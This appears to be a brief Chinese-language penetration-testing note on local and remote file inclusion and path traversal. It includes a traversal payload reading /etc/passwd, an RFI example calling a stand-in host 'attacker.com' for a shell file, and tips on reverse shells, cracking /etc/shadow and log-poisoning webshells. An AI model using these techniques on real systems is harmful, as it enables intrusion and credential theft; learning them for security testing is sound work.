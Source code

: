 # 关于文件包含

当判断页面可能存在文件包含漏洞时，可以尝试使用wfuzz，bp等爆破参数，并尝试读取/etc/passwd，同时也可以测试是否可以远程文件包含，可以的话便可直接利用php-reverse-shell.php反弹shell，如果不可以也可以尝试读取linux中的关键文件收集信息

如/etc/shadow，用来破解用户密码

如日志文件，实现木马注入

- 本地文件包含（LFI）：
  - 包含本地文件（如 `/etc/passwd`）。
- 远程文件包含（RFI）：
  - 包含远程文件（如 `http://attacker.com/shell.txt`）。





# 路径遍历

当存在文件包含漏洞，但我们无法确定当前路径时，可以尝试路径遍历，或者爆破得到真实路径

```
../../../../../../../../../../etc/passwd
```

/etc/passwd这个文件任何用户都是可读的

可利用其来测试文件读取

通过构造特殊的路径，绕过文件路径限制，读取目标系统的敏感文件



